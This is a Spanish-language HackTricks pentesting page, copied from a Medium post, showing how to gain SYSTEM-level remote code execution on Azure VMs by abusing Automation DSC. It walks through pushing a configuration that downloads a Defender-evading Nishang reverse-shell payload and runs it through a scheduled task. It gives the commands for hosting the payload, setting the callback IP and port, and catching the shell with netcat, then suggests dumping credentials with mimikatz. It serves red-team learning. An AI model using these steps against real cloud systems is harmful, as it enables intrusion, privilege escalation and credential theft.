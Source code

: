 # Az - State Configuration RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la Infraestructura del Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Voy a alojar una versión simplificada del payload Nishang Invoke-PowerShellTcp.ps1 desde el servidor remoto "40.84.7.74", que es la caja de Kali. El nombre del payload será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (quizás prefieras dejar el archivo en el disco), aquí tienes una versión ligera que puedes usar y que evitará a Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple servidor Python Simple Server en la caja de Kali.

### Paso 1 — Crear Archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Una plantilla se puede descargar aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que usamos anteriormente. Esta vez, el contenido incluye código para descargar y ejecutar un payload desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible en el módulo _ComputerManagementDsc_. La función de tarea programada será el papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Necesitarás completar los nombres de las variables y los parámetros con lo que estés utilizando**. Esto incluye los nombres de los recursos, las rutas de los archivos y los nombres del servidor/payload externo que estés utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir el Archivo de Configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **‘reverse\_shell\_config.ps1’** para que pueda ser enviado a la Cuenta de Almacenamiento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Paso 3 — Establecer Contexto de Almacenamiento y Subir <a href="#bed9" id="bed9"></a>

Nuevamente, configuraremos el contexto de nuestra Cuenta de Almacenamiento, lo cual ya he hecho. Ya tengo un contenedor llamado '**azure-pentest**', así que aquí es donde publicaré el mío:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Paso 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

En nuestra Kali box, podemos simplemente usar _wget_ para obtener nuestro payload de PowerShell. El script crudo de reverse-shell se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Necesitamos editar el script de reverse-shell añadiendo nuestros parámetros, para que la VM de Windows sepa a dónde conectarse una vez que se ejecute. En mi caso, añado lo siguiente:
```
RevPShell -Reverse 40.84.7.73 443
```
### Paso 5 — Publicar Archivo de Configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Tengo el mío configurado para ser publicado en el Escritorio para una mejor visualización, sin embargo, se puede publicar prácticamente en cualquier lugar. Después de un par de minutos, veremos que el script de reverse-shell ¡ha sido publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Paso 6 — Alojar Payload y Configurar Listener <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un Python SimpleHTTPServer sobre el puerto 80 para alojar el payload, junto con un listener de netcat para capturar la conexión:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Observamos que la tarea programada se ha ejecutado y nuestro payload fue recuperado y ejecutado en memoria con privilegios de nivel **SYSTEM**.

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto abre la puerta a muchas posibilidades. Dado que tenemos una shell ejecutándose como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de la madurez del EDR para recursos en la nube). Si volcas credenciales, hay una buena posibilidad de que estas puedan ser reutilizadas en otros recursos. Por último, una gran lección es que, en lugar de limitar esto a una VM, ahora tienes la capacidad de aplicar potencialmente esta configuración a múltiples VMs.

¡Con esto concluimos nuestras aventuras con Azure Automation DSC! Espero que te hayas divertido, aprendido mucho y continúes expandiendo con tu propia creatividad.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
